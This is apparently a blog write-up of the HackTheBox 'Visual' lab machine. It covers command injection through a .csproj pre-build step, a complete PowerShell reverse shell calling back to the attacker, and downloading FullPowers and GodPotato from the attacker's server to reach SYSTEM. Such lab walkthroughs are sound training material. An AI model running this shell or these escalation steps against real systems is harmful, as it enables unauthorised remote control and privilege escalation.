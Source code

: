 ```yaml
---
layout: post
title: "Visual 0840890c71974a4cb941dd43720bdafa"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Visual

HackTheBox: Medium

<aside>
💡 Visual is a windows machine which handles with repositories and build visual studio projects

</aside>

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled.png' | relative_url }})

We find there’s a http service hosted in apache with php

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_1.png' | relative_url }})

This service allows to make the build project in a automated way, we can see a section where we just put the url repo and wait for it.

First at all we test functionality

To get into the machine successfully we need some files:

1. A repository with c# code
2. A file .csproj and .sln
3. A rev shell to access to the machine once the code is injected

> The machine doesn’t have access to internet therefore we need to run a private server where we could get the repo, we get this in this way
> 

```bash
git --bare clone external_repo
cd repo/.git
git --bare update-server-info
mv hooks/post-updte.sample hooks/post-update
cd ..
python -m http.server 8000
```

> .csproj = This file has the possibility of iinject commands through prebuild tag.
> 

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_2.png' | relative_url }})

 

## 2: User flag

```bash
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.14', 2222);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

Con este rev shell ponemos en escucha en el puerto establecido y ya obtenemos acceso 

```powershell
cmd /c type c:\Users\enox\Desktop\user.txt
```

## 3: Priv esc

wrapper pred:

```powershell
cd C:\xampp\htdocs\uploads
```

Revisamos privilegios

```powershell
whoami /priv
```

Check some privileges and look “ImpersonatePrivilege” is not present

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_3.png' | relative_url }})

We cannot modify or access to files but we can create them

Use the server early running and add fullpowers, a POC that rest default privileges

With impersonate privileges we can assume other identities, sometime interesting that happens to me in this machine is that i had to reset the machine to make work fullpowers properly

```powershell
cmd /c powershell Invoke-WebRequest -Uri http://10.10.00.000:0000/fullpowers.exe -OutFile Fullpowers.exe
fullpowers.exe
```

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_4.png' | relative_url }})

We got all priv is time to use godpotato and get the whole power

```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.14:8000/GodPotato.exe -OutFile GodPotato.exe
GodPotato-NET64 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```

There was a problem, godpotato which will allow us to run commands as system had 3 exe’s and only the 64 one worked

Machine pwned!!